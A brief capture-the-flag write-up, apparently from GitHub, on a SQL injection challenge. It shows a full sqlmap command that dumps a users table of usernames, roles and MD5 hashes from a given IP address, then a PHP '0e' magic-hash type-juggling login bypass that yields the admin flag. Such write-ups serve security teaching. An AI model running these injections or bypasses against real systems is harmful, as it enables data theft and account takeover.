 SQL injection

I used sqlmap to get the data:

```
http://163.172.176.29/WALL/index.php (POST)  # /usr/bin/sqlmap -u http://163.172.176.29/WALL/index.php --data=life=JonSnow&soul=234 --user-agent=random --threads=10 -T users -C password,role,username --dump


Database: SQLite_masterdb
Table: users
[3 entries]
+----+----------------------------------+--------+---------------+
| id | password                         | role   | username      |
+----+----------------------------------+--------+---------------+
| 1  | 8bed707bb9c0a948fa0c465495fc8014 | normal | JonSnow       |
| 2  | 0e565041023046045310587974628079 | admin  | LordCommander |
| 3  | 6a1def57895118aed6fd730d0dd84ce3 | normal | Targaryen     |
+----+----------------------------------+--------+---------------+

```

Notice that the hash started with '0e' and in the sourcecode we could see that the strings were compared with '==' so I used 'LordCommander:QNKCDZO' to login and got the flag: CTF{type_juggling_and_blind_sql_are_worth_a_fun_240610708}

How could I login with 'QNKCDZO', read this post @ stackoverflow: https://stackoverflow.com/questions/22140204/why-md5240610708-is-equal-to-md5qnkcdzo



